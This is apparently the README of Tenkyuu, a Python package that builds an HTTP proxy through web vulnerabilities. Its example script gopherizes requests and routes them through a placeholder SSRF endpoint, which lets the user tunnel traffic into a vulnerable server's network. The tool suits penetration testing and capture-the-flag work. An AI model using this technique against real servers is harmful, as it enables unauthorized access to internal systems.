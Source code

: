 # Tenkyuu

A framework to create a HTTP Proxy through web vulnerabilities (SSRF, WebShell, etc.) quickly. 

## Usage

Firstly, install the package from pypi. 

```bash
pip install tenkyuu
```

Then code your proxy rules. For example:

```python
from tenkyuu import Tenkyuu, internal_server_error
import requests

app = Tenkyuu(verbose = True)

def ssrf_proxy(req):
    # The req param is an object that contains the information of HTTP Request(s)

    # The req.gopherize() function will convert HTTP Request Packet 
    # to `gopher://...` protocol automatically
    gopherized_url = req.gopherize() 
    
    # Assume that the server has a ssrf vulunerale entrance
    # and supports gopher:// protocol, responsing with data 
    # in JSON format
    resp = requests.get("http://vulunerable.com/ssrf.php", params = {
        "url": gopherized_url
    }).json()

    if resp["status"] != "OK":
        return internal_server_error()

    return resp["data"]

if __name__ == "__main__":
    app.run(
        handler = ssrf_proxy,
        host = "127.0.0.1", 
        port = 8088
    )
```

Run the script and set your HTTP Proxy to `127.0.0.1:8088` in the application you will use.

## License

Apache License